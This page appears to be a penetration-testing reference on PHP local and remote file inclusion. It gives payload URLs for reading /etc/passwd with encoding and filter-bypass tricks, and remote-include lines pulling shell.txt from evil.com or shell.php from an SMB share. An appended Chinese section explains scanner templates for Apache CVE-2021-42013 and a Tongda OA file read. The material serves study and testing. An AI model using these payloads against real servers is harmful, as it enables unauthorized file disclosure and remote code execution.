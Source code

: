 # File Inclusion

> A File Inclusion Vulnerability refers to a type of security vulnerability in web applications, particularly prevalent in applications developed in PHP, where an attacker can include a file, usually exploiting a lack of proper input/output sanitization. This vulnerability can lead to a range of malicious activities, including code execution, data theft, and website defacement.

## Summary

- [Tools](#tools)
- [Local File Inclusion](#local-file-inclusion)
    - [Null Byte](#null-byte)
    - [Double Encoding](#double-encoding)
    - [UTF-8 Encoding](#utf-8-encoding)
    - [Path Truncation](#path-truncation)
    - [Filter Bypass](#filter-bypass)
- [Remote File Inclusion](#remote-file-inclusion)
    - [Null Byte](#null-byte-1)
    - [Double Encoding](#double-encoding-1)
    - [Bypass allow_url_include](#bypass-allow_url_include)
- [Labs](#labs)
- [References](#references)

## Tools

- [P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus) (archived on Oct 7, 2020) - kadimus is a tool to check and exploit lfi vulnerability.
- [D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite) - Totally Automatic LFI Exploiter (+ Reverse Shell) and Scanner
- [kurobeats/fimap](https://github.com/kurobeats/fimap) - fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.
- [lightos/Panoptic](https://github.com/lightos/Panoptic) - Panoptic is an open source penetration testing tool that automates the process of search and retrieval of content for common log and config files through path traversal vulnerabilities.
- [hansmach1ne/LFImap](https://github.com/hansmach1ne/LFImap) - Local File Inclusion discovery and exploitation tool

## Local File Inclusion

**File Inclusion Vulnerability** should be differentiated from **Path Traversal**. The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application, when the File Inclusion will lead to the execution of arbitrary code.

Consider a PHP script that includes a file based on user input. If proper sanitization is not in place, an attacker could manipulate the `page` parameter to include local or remote files, leading to unauthorized access or code execution.

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null Byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte (`%00`).

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

**Example**: Joomla! Component Web TV 1.0 - CVE-2010-1470

```ps1
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### Double Encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 Encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path Truncation

On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter Bypass

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## Remote File Inclusion

> Remote File Inclusion (RFI) is a type of vulnerability that occurs when an application includes a remote file, usually through user input, without properly validating or sanitizing the input.

Remote File Inclusion doesn't work anymore on a default configuration since `allow_url_include` is now disabled since PHP 5.

```ini
allow_url_include = On
```

Most of the filter bypasses from LFI section can be reused for RFI.

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null Byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### Double Encoding

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## Labs

- [Root Me - Local File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
- [Root Me - Local File Inclusion - Double encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)
- [Root Me - Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
- [Root Me - PHP - Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## References

- [CVV #1: Local File Inclusion - SI9INT - Jun 20, 2018](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
- [Exploiting Remote File Inclusion (RFI) in PHP application and bypassing remote URL inclusion restriction - Mannu Linux - 2019-05-12](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)
- [Is PHP vulnerable and under what conditions? - April 13, 2015 - Andreas Venieris](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
- [LFI Cheat Sheet - @Arr0way - 24 Apr 2016](https://highon.coffee/blog/lfi-cheat-sheet/)
- [Testing for Local File Inclusion - OWASP - 25 June 2017](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
- [Turning LFI into RFI - Grayson Christopher - 2017-08-14](https://web.archive.org/web/20170815004721/https://l.avala.mp/?p=241)

## 八、典型漏洞 YAML 文件分析

本目录及上级目录收录了多个与文件包含和路径遍历相关的漏洞利用模板，以下对部分典型 YAML 文件进行详细解读。

### 1. CVE-2021-42013.yaml (Apache 路径遍历与 RCE)
- **漏洞类型**：路径遍历 & 远程代码执行
- **漏洞原理**：
  由于 Apache HTTP Server 2.4.49/2.4.50 版本中对路径规范化的修复不完整，攻击者可以通过构造特殊的 URL（如使用 `%%32%65` 进行编码绕过）来访问预期文档根目录之外的文件。如果 `mod_cgi` 等模块被启用，此路径遍历漏洞可能升级为远程代码执行。
- **探测原理**：
  该 YAML 模板首先尝试通过编码后的路径遍历 payload (`/icons/%%32%65.../etc/passwd`) 读取 `/etc/passwd` 文件，如果成功则确认 LFI。接着，它会尝试向 `/cgi-bin/`下的 `sh` 发送 POST 请求执行命令（`echo`），如果命令成功执行并返回预期结果，则确认 RCE。
- **修复建议**：升级 Apache HTTP Server至 2.4.51 或更高版本。

### 2. tongda-path-traversal.yaml (通达 OA 任意文件读取)
- **漏洞类型**：路径遍历
- **漏洞原理**：
  通达 OA 的 `gateway.php` 接口在处理 `json` 参数时，未对其中的 `url` 键值进行充分过滤。攻击者可以通过 `../` 来遍历服务器目录，读取任意文件，例如 `my.ini` 数据库配置文件。
- **探测原理**：
  该模板向 `/ispirit/interface/gateway.php` 发送一个 POST 请求，其 `json` 参数被构造成 `{"url":"/general/../../mysql5/my.ini"}`。服务器处理后，会返回 `my.ini` 文件的内容。模板通过匹配响应中 `[mysql]` 和 `password=` 等关键字来确认漏洞。
- **修复建议**：升级通达 OA 版本，并对所有涉及文件操作的输入参数进行严格的路径和字符过滤。

---

#### 总结
本地文件包含（LFI）和路径遍历漏洞的根源在于服务端未能有效过滤用户提交的路径信息。攻击者可以借此读取敏感配置文件、源代码，甚至结合其他漏洞（如文件上传）或特定环境配置（如 `mod_cgi`）实现远程代码执行。防御核心在于：
- **输入验证**：对用户输入进行严格过滤，禁止 `../` 等路径跳转字符。
- **路径规范化**：在访问文件系统前，对路径进行解析和规范化，确保其始终在安全的根目录内。
- **权限控制**：Web 服务器应以最小权限运行，并严格限制对敏感文件和目录的访问。
